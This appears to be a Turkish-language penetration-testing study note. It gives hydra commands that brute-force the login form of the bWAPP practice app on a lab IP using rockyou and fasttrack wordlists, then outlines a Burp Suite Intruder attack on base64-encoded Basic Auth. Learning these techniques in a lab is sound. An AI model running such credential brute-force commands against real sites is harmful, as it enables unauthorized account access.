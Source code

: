 # En sona çift "" atınca komut düzeldi.

hydra -L hydra-user.txt -P /usr/share/wordlists/rockyou.txt  10.0.2.6 http-post-form "/bWAPP/login.php:login=^USER^&password=^PASS^&security_level=0&form=submit:Invalid credentials or user not activated"

hydra -L hydra-user.txt -P /usr/share/wordlists/fasttrack.txt 10.0.2.6 http-post-form "/bWAPP/login.php:login=^USER^&password=^PASS^&security_level=0&form=submit:Invalid credentials or user not activated"
![[Pasted image 20240708161602.png]]





---



## Attacking Basic Auth with Burp Suite

![[Pasted image 20240507002317.png]]

![[Pasted image 20240507002457.png]]
### Bir GET post'u ile Burp Suite de yakaladık.
![[Pasted image 20240507002533.png]]
### Yalnız sayfa her zaman gördüklerimizden farklı. Örneğin Authorization: Basic dGVzdDp0ZXN0
![[Pasted image 20240507002813.png]]
![[Pasted image 20240507002825.png]]
### Burpsuite anında decode etme özelliğini kulladık ve kendi yazdığımız test:test özelliğini gördük.

## Sonra Bunu seçtik ve Intruder'a gönderdik.
![[Pasted image 20240507002940.png]]
![[Pasted image 20240507003033.png]]
## Payload Options ekliyoruz

![[Pasted image 20240507003111.png]]
![[Pasted image 20240507003153.png]]

### Sonra 1 tane daha options ekliyoruz BASE64 ile encode edildiğini yazıyoruz ki ona göre baksın
![[Pasted image 20240507003249.png]]
![[Pasted image 20240507003303.png]]
